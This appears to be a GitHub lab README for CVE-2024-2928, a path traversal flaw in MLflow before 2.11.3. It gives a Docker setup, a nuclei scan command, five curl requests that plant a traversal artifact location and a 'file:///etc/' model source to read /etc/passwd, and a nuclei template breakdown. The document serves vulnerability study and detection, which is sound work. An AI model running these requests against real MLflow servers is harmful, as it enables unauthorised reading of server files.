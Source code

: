 

# CVE-2024-2928 - MLflow < 2.11.3 - Path Traversal

## Description

MLflow versions prior to `2.11.3` are vulnerable to a **Path Traversal** vulnerability due to improper handling of URI fragments in artifact locations. An attacker can exploit this to read arbitrary files from the server, including sensitive files like `/etc/passwd`.


## References:

* [NVD CVE Details](https://nvd.nist.gov/vuln/detail/CVE-2024-2928)
* [Exploit Code](https://github.com/nuridincersaygili/CVE-2024-2928/blob/main/CVE-2024-2928.py)
* [Nuclei Official Template](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2024/CVE-2024-2928.yaml)


## Lab Setup

> Requires Docker installed

```bash
docker-compose up -d
```

The vulnerable MLflow application will run on:

```bash
http://<your-docker-ip>:5000
```


## Nuclei Command

```bash
nuclei -u http://192.168.1.172:5000 -t CVE-2024-2928.yaml
```

![6](https://github.com/user-attachments/assets/b106e672-0357-401a-9f54-a1a0dce74560)


# Exploitation Steps (Manual)

1. Create experiment with artifact location as /etc/:
```
curl -s -X POST http://192.168.1.172:5000/ajax-api/2.0/mlflow/experiments/create \
  -H "Content-Type: application/json" \
  -d '{
        "name": "exploit123",
        "artifact_location": "http:///#/../../../../../../../../../../../../../..//etc/"
      }'
```

 - You should get experiment_id: 7 (for example)

![1](https://github.com/user-attachments/assets/a5775a67-5c5c-49c1-8dd3-dcdeaa047a22)


2. Create run: (experiment_id request according change)

```
curl -s -X POST http://192.168.1.172:5000/api/2.0/mlflow/runs/create \
  -H "Content-Type: application/json" \
  -d '{"experiment_id": "7"}'
```
 - Note the run_id returned. Let's say: 3cfc250090b246b68f34fb2dfa42ba0e

![2](https://github.com/user-attachments/assets/a333cf1a-ee4e-45c5-80a7-bf7fb56859ea)


3. Register model:

```
curl -s -X POST http://192.168.1.172:5000/ajax-api/2.0/mlflow/registered-models/create \
  -H "Content-Type: application/json" \
  -d '{"name": "exploit123"}'
```

![3](https://github.com/user-attachments/assets/b4ce8dc5-9988-4e2a-863e-6be97f0d65c0)


4. Create model version using directory as source: (Chage run_id according to request)

```
curl -s -X POST http://192.168.1.172:5000/ajax-api/2.0/mlflow/model-versions/create \
  -H "Content-Type: application/json" \
  -d '{
        "name": "exploit123",
        "run_id": "3cfc250090b246b68f34fb2dfa42ba0e",
        "source": "file:///etc/"
      }'
```

 - This should now succeed because /etc/ matches the artifact path.

![4](https://github.com/user-attachments/assets/de0fc4dd-d916-4abf-a868-581c8d01f4a6)


5. Fetch /etc/passwd

```
curl -s "http://192.168.1.172:5000/model-versions/get-artifact?path=passwd&name=exploit1234&version=1"
```

![5](https://github.com/user-attachments/assets/ebe32ed1-2ad8-48c9-b316-c8a73fcf3b1a)


# Steps to Write Nuclei Template

## Variables & Extractors

* No user-defined variables, random string (`{{randstr}}`) used for names
* Extracted fields:

  * `EXPERIMENT_ID` — From first response
  * `RUN_ID` — From second response


## Full Template Request Breakdown

### Request 1 — Create Experiment with Path Traversal

```yaml
POST /ajax-api/2.0/mlflow/experiments/create
{"name": "{{randstr}}", "artifact_location": "http:///#/../../../../../../../../../../../../etc/"}
```

Extract `EXPERIMENT_ID`


### Request 2 — Create Run

```yaml
POST /api/2.0/mlflow/runs/create
{"experiment_id": "{{EXPERIMENT_ID}}"}
```

Extract `RUN_ID`

### Request 3 — Create Model

```yaml
POST /ajax-api/2.0/mlflow/registered-models/create
{"name": "{{randstr}}"}
```


### Request 4 — Create Model Version with `/etc/` Source

```yaml
POST /ajax-api/2.0/mlflow/model-versions/create
{"name": "{{randstr}}", "run_id": "{{RUN_ID}}", "source": "file:///etc/"}
```


### Request 5 — Exploit LFI by Reading `/etc/passwd`

```yaml
GET /model-versions/get-artifact?path=passwd&name={{randstr}}&version=1
```


## Matchers

```yaml
- Status code 200  
- Response body contains "root:.*:0:0:"  
- Response header confirms "filename=passwd" and "application/octet-stream"  
```


